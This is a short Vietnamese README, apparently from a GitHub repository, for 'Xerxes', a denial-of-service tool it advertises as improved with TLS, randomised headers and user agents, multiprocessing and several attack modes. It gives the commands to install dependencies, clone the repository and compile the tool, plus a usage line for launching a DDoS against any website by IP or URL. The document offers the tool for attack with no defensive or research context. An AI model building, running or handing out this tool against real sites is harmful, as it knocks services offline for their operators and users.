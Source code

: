 # XERXES
XERXES là 1 trong những công cụ Dos đơn giản mạnh mẽ nhất của zanyarjamal

# Công cụ dos Xerxes được cải tiến với nhiều tính năng như:
- [x] Hỗ trợ TLS
- [x] Tự random HTTP header
- [x] Tự random Useragent
- [x] Hỗ trợ đa xử lý
- [x] Nhiều phương thức tấn công
v.v …

# Cách cài đặt
Cài đặt các thư viện cần thiết cho Xerxes
```
sudo apt-get -y install build-essential cmake libssl-dev pkgconf
```
Tải xerxes về máy tính
```
git clone https://github.com/DauDau432/xerxes
```
Sau đó di chuyển đến thư mục vừa cài đặt
```
cd xerxes
```
Tiếp theo, bạn nên biên dịch với trình biên dịch GNU GCC
```
gcc xerxes.c -o xerxes
```
# Cách sử dụng
Sử dụng lệnh dưới đây để DDOS vào Website bất kỳ
```
./xerxes <IP/URL> 80
```
